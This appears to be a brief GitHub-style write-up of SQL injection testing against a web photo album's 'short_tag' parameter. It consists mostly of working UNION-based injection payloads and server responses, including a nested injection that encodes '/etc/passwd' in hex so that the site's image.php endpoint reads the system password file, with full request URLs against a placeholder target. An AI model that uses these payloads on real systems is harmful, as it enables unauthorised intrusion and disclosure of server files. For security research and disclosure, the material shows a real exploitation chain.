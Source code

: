 <h3>time-based blind testing</h3>

```bash
HTTP/1.1 200 OK
```

<h3>UNION query testing</h3>

```bash
UNION query --> short_tag=-5166' UNION ALL SELECT CONCAT(0x7178627171,0x5061795057766459577454595a72774f444b7654474970706d584d7a727a5669616b5a516a4c736c,0x7178766a71)-- -</p>
```

```bash
HTTP/1.1 200 OK
...
Connection failed: SQLSTATE[42S22]: Column not found: 1054 Unknown column 'qxbqqPayPWvdYWtTYZrwODKvTGIppmXMzrzViakZQjLslqxvjq' in 'WHERE'
```

<br>

```bash
UNION query --> short_tag=smart=-5166'%20UNION%20SELECT%20%220%20UNION%20SELECT%201,2,0x2f6574632f706173737764--%20-%22--%20-- -
```

```bash
HTTP/1.1 200 OK
...
<!-- Short tag: smart=-5166' UNION SELECT "0 UNION SELECT 1,2,0x2f6574632f706173737764-- -"-- - - Album ID: 0 UNION SELECT 1,2,0x2f6574632f706173737764-- --->
<div class="grid-container">
<div class="image-container">
<a href="/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd"><img src="/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd" alt="Image path: /etc/passwd"></a>
```

<br>

```bash
http://TargetIP/album.php?short_tag=smart=-5166%27%20UNION%20SELECT%20%220%20UNION%20SELECT%201,2,0x2f6574632f706173737764--%20-%22--%20-
```
<img width="1034" height="119" alt="image" src="https://github.com/user-attachments/assets/2b79823f-be55-4dc6-bd7e-afd317771e86" />

```bash
http://TargetIP/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd
```

<img width="660" height="338" alt="image" src="https://github.com/user-attachments/assets/a35dfe5c-b5ff-4958-b856-f9e808c6a9bf" />

<img width="1061" height="343" alt="image" src="https://github.com/user-attachments/assets/ec767e4d-8535-461d-8341-1683d33be92f" />

<br>
